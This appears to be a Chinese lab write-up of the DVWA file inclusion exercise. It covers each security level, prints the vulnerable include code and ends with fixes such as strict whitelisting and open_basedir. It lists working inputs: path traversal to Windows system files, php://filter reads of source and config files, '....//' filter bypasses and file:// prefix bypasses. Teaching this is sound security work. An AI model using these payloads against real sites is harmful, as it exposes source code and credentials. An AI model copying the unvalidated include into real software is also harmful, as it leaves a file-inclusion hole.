


# File Inclusion

`?page=` 的值直接进了 `include()`。include 会把目标文件读进来当 PHP 代码执行，路径由用户给，就能读任意文件，读进来的内容也可能被执行。

## 漏洞在哪

```php
$file = $_GET['page'];
include($file);
```

没有白名单、没有路径约束。本地文件包含读本机，远程文件包含读别的服务器，两种都在这个参数上。

## 等级对照

| 等级 | 防护 | 本机结果 |
|---|---|---|
| Low | 无 | 读 `win.ini`，`php://filter` 读源码成功 |
| Medium | `str_replace` 过滤四处 | 双写绕过穿越，`php://` 未被拦 |
| High | `fnmatch("file*")` 前缀白名单 | `file://` 正好命中前缀 |
| Impossible | 四个固定值硬比 | 打不进去 |

## Low

| 项 | 内容 |
|---|---|
| 正常值 | `?page=include.php` 页面正常 |
| 穿越 | `?page=../../../../../../Windows/win.ini` |
| 读源码 | `php://filter/read=convert.base64-encode/resource=index.php` |
| 层数 | 脚本在 `DVWA/vulnerabilities/fi/`，往上退 5 到 6 层到盘符根 |

`include` 会执行文件，直接读 `index.php` 只能看到执行结果。`php://filter` 先转码再输出，拿到的是原文：

```
?page=php://filter/read=convert.base64-encode/resource=index.php
```

返回一大段 Base64，本地解码即源码。同样的手法读 `php.ini`，能看 `allow_url_include`、`open_basedir` 是否开启。

```text
?page=php://filter/read=convert.base64-encode/resource=D:/phpstudy_pro/Extensions/php/php7.3.4nts/php.ini
```

真实场景里这条比读系统文件值钱：源码里有数据库账号、后台逻辑、隐藏接口，而且绕过了"源码不暴露"的假设。






## Medium

| 项 | 内容 |
|---|---|
| 过滤 | `http://`、`https://`、`../`、`..\` 四处 `str_replace` 成空 |
| 绕过 | `....//` 被删掉中间那组后重新拼成 `../` |
| 协议 | `php://` 不在名单里，读源码不用绕 |
| 结论 | 黑名单只扫一遍，替换成空又造出新组合 |

```
?page=....//....//....//....//....//....//Windows/win.ini
?page=php://filter/read=convert.base64-encode/resource=index.php
?page=php://filter/read=convert.base64-encode/resource=....//....//config/config.inc.php
```


黑名单的缝隙永远存在：`php://`、`file://`、`data://`、大小写变形、二次编码，漏一个就能过。

## High

| 项 | 内容 |
|---|---|
| 防护 | `fnmatch("file*", $file)` 或等于 `include.php` |
| 失败 | `../../Windows/win.ini` 前缀不匹配，`..\..\` 同样 |
| 绕过 | `file://` 以 `file` 开头，正好通过校验 |
| 结果 | 读 `win.ini`、`hosts` 成功 |

```php
if (!fnmatch("file*", $file) && $file != "include.php") { exit; }
include($file);
```

```text
?page=file:///C:/Windows/win.ini
?page=file:///C:/Windows/System32/drivers/etc/hosts
```


这一级的教训不是"file 协议危险"，是**白名单用字符串前缀匹配本身就是错的**。规则想放行 `file1.php`、`file2.php`，结果连协议名一起放进来了。

## Impossible

```php
if ($file != "include.php" && $file != "file1.php"
    && $file != "file2.php" && $file != "file3.php") { exit; }
```

四个值硬比，参数没有自由度。路径穿越、`file://`、`php://filter` 全部失败。

严格白名单是文件包含唯一靠谱的修法，过滤、替换、前缀匹配都被证明能绕。

## 容易记错的地方

- Windows 上没有 `/etc/passwd`，对应目标是 `C:\Windows\win.ini` 和 `hosts`。
- `../` 层数不必算准，3 到 8 层逐个试，能读出内容的那层就是对的。
- 双写写的是"两组点加两组斜杠"，多一组点就成了六个点，替换完不成形状。
- High 卡住往往不是路径问题，是前缀问题，先读那行 `fnmatch`。

## 怎么修

| 措施 | 作用 |
|---|---|
| 数组映射 | 用户只能选 key，真实文件名由代码决定 |
| `basename()` + `realpath()` | 只取文件名，并校验落点是否在允许目录内 |
| `open_basedir` | 限死可读目录，穿越失效 |
| 关 `allow_url_include` | 断掉远程包含 |
| 上传目录禁执行 | 与文件上传组合时断链 |
